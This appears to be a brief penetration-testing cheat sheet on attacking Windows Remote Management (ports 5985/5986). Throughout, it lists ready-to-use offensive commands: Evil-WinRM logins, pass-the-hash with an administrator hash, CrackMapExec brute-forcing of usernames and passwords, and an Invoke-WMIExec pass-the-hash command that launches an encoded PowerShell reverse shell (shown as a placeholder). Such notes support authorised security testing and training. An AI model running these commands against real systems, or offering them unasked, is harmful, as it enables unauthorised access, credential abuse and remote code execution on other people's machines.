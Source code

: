 # 5985,5986 - WinRM

## Uses Evil-WinRM to establish a Powershell session with a target.



`evil-winrm -i -u user -p password`

## Pass The Hash with Evil-WinRM



`evil-winrm -i <ip> -u Administrator -H "HASH"`

## Bruteforce

| Command                                                 | Description                                                                                                   |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- |
| `crackmapexec winrm <ip> -u user.list -p password.list` | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target. |

## Invoke-TheHash with WMI



`Invoke-WMIExec -Target DC01 -Domain website.com -Username julio -Hash 64F12CDDBC88057E06A81B54E73B949B -Command "powershell -e JA[BASE 64 revshell] ApAA=="`
